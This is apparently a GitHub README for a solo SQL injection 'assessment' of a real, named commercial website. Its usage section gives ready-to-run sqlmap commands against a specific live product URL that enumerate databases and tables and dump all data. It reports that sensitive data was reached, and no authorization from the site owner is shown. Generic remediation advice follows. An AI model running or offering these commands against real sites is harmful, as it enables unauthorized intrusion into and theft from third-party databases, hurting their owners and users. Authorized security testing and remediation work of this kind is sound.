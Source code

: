 # SQL Injection Vulnerability Assessment

## Overview

This project involves assessing SQL injection vulnerabilities within the Vestil website. The assessment aims to identify and exploit SQL injection points to highlight their impact on database security.

## Purpose

- **Identify Vulnerabilities**: Detected SQL injection weaknesses in the Vestil website.
- **Exploit Vulnerabilities**: Demonstrated how these vulnerabilities can be exploited.
- **Mitigate Risks**: Provided recommendations to improve security.

## Technologies Used

- **Kali Linux**: A Linux distribution for penetration testing.
- **SQLmap**: A tool for automated SQL injection detection and exploitation.

## Setup and Installation

   **Clone the Repository**

   ```bash
   git clone https://github.com/yourusername/sql-injection-vulnerability-assessment.git
   sudo apt-get install sqlmap
   cd sql-injection-vulnerability-assessment
  ```

## Usage

Providing a step-by-step guide on how to use the tools and perform the assessment.

1. **Initial Reconnaissance**

   Identify potential SQL injection points by manipulating URL parameters on the Vestil website.

2. **Run SQLmap**

   Use SQLmap to detect SQL injection vulnerabilities:

   ```bash
   sqlmap -u "https://www.vestil.com/product.php?FID=1430" --dbs
   sqlmap -u "https://www.vestil.com/product.php?FID=1430" --tables
   sqlmap -u "https://www.vestil.com/product.php?FID=1430" --dump-all

## Findings

- **Vulnerabilities Identified**: Several SQL injection points were discovered, allowing access to sensitive data in the MySQL database.
- **Impact**: These vulnerabilities could lead to unauthorized data access, theft, manipulation, and significant reputational damage.

## Recommendations

- **Use Parameterized Queries**: Prevent SQL injection by using parameterized queries.
- **Sanitize Input**: Validate and sanitize all user inputs to block malicious data.
- **Prepared Statements**: Implement prepared statements to avoid injection.
- **Access Controls**: Enforce strong authentication and access controls for the database.
- **Monitoring**: Set up alerts for unusual database activity.

## Contributions

This project was completed individually. Contributions included:
- Identifying and exploiting SQL injection vulnerabilities.
- Utilizing SQLmap for detection and data extraction.
- Documenting findings and recommendations for remediation.





